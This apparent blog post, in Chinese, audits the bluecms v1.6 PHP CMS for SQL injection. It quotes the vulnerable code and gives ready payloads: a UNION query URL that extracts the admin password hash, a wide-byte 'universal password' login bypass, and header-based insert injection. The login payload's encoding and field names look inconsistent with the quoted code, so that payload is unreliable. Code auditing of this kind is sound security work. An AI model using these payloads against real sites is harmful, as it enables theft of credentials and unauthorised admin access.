 ```yaml
---
title: bluecms v1.6 Sql Injection 分析
date: 2017-01-11 22:02:11
tags: 
 - 漏洞分析
categories: codereview
---
```


## 概述
很久没有代码审计了，拿一套简单的找找感觉。bluecms是一套比较老的门户网站cms，网上也有很多关于它的漏洞还未修补，所以下文的漏洞也不算是最新的，仅当是练练手。

<!-- more -->
# SQL注入分析

首先关注一下数据的输入

## 全局数据转义

在common.inc.php中

```
if(!get_magic_quotes_gpc())
{
	$_POST = deep_addslashes($_POST);
	$_GET = deep_addslashes($_GET);
	$_COOKIES = deep_addslashes($_COOKIES);
	$_REQUEST = deep_addslashes($_REQUEST);
}
```
再跟进一下deep_addslashes

```
function deep_addslashes($str)
{
	if(is_array($str))
	{
		foreach($str as $key=>$val)
		{
			$str[$key] = deep_addslashes($val);
		}
	}
	else
	{
		$str = addslashes($str);
	}
	return $str;
}
```
可以发现对数据的注入，进行了加斜杠转义的操作。那么接下来找注入思路主要有以下3点：

1. 找整数型注入
2. 整套cms默认gb2312编码，容易造成宽字节注入
3. http头并不在转义的范围内，所以类似存入ip，reffer的位置也能发生注入

## 整数型注入
拿grep匹配了一下$_GET，找到一处不做其他过滤的整数型位置

```
./ad_js.php:$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
```

跟进ad_js.php

```
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
if(empty($ad_id))
{
	echo 'Error!';
	exit();
}

$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```
getone函数

```
function getone($sql, $type=MYSQL_ASSOC){
    	$query = $this->query($sql,$this->linkid);
    	$row = mysql_fetch_array($query, $type);
    	return $row;
}
```

可以看到这里对ad_id没有做其他过滤处理，造成了整数型注入,由于后面会将ad_content打印在页面上，所以直接用union注入就可以获得数据，构造payload

```
/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,concat(admin_name,0x23,pwd)%20from%20blue_admin%20limit%201
```

结果可以在返回的界面中看到

```
<!--
document.write("admin#21232f297a57a5a743894a0e4a801fc3");
-->
```
ps:因为该cms错误回显具体sql语句，表前缀可以通过报错的方法把表前缀爆出来。

## 宽字节注入
bluecms操作数据库的具体类定义在mysql.class.php,默认连接时的编码为gbk，我们可以知道当数据库连接时的编码为gbk等双字节编码时，容易发生宽字节注入。前面提到该套cms对数据输入进行了转义的操作，那么刚刚好条件都齐了，必然存在宽字节注入。grep看了一下，基本上的字符串都只是做了转义处理，所以字符串数据输入点都存在宽字节注入。大多数注入都是盲注，没找到具体可以会显数据的地方，这里就简单看一下登陆处
### 后台登录处
其实前台user.php，也存在注入，只是盲注，这里就取简单的后台登录验证处
admin/login.php

```
elseif($act == 'do_login'){
 	$admin_name = isset($_POST['admin_name']) ? trim($_POST['admin_name']) : '';
 	$admin_pwd = isset($_POST['admin_pwd']) ? trim($_POST['admin_pwd']) : '';
 	$remember = isset($_POST) ? intval($_POST['rememberme']) : 0;
 	if($admin_name == ''){
 		showmsg('xxx');
 	}
 	if($admin_pwd == ''){
 		showmsg('xxx');
 	}
 	if(check_admin($admin_name, $admin_pwd)){
 		update_admin_info($admin_name);
 		if($remember == 1){
 			setcookie('Blue[admin_id]', $_SESSION['admin_id'], time()+86400);
 			setcookie('Blue[admin_name]', $admin_name, time()+86400);
			setcookie('Blue[admin_pwd]', md5(md5($admin_pwd).$_CFG['cookie_hash']), time()+86400);
 		}
 	}else{
 		showmsg('xxx');
 	}
 	showmsg('xxx', 'index.php');
 }
```
继续跟进check_admin

```
function check_admin($name, $pwd)
{
	global $db;
	$row = $db->getone("SELECT COUNT(*) AS num FROM ".table('admin')." WHERE admin_name='$name' and pwd = md5('$pwd')");
 	if($row['num'] > 0)
 	{
 		return true;
 	}
 	else
 	{
 		return false;
 	}
}
```
可以看到这里发生了一次登陆验证，可以通过宽字节注入来做万能密码登陆。

```
user_name=admin%65%27+or+1%3D1%23&pwd=123
```
![](/images/bluecms_code_review/bluecms_login_success.png)

## 存入ip造成注入
在common.inc.php中可以找到getip()函数

```
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP');
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED'))
	{
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```
再看看调用他的位置
![](/images/bluecms_code_review/bluecms_getip.png)

online_ip调用处
![](/images/bluecms_code_review/bluecms_online_ip.png)

看看guest_book.php处存在insert注入，并且可以通过覆盖后面的content，造成数据回显。通过xff传入注入语句或者client ip传入。

![](/images/bluecms_code_review/bluecms_ip_injection.png)
结果可以看到
![](/images/bluecms_code_review/bluecms_ip_results.png)

其他位置的注入，不能回显，就不分析了。

# 总结
总体来说，直接可以grep到`$_GET`、`$_POST`、`$_REQUEST`的cms，审计起来会比较轻松。可以先从入口看起，将common,config等文件看一遍，再查找危险函数，数据入口就可审计出几个漏洞来。bluecms暂时审计到这一步，主要找的是SQL注入的漏洞。其他漏洞打算准备另外一套cms来审计:)







